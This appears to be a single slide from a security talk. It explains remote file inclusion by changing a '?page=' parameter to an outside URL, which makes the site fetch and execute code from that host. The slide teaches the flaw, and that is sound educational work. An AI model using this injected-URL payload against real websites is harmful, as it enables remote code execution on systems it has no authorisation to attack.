

# Scenario
Well, what if we change it to ?page=http://demoseen.com/test

Suddenly, it’s making a web request to http://demoseen.com/test.php -- any code that’s contained in that file is going to be executed by the site in question.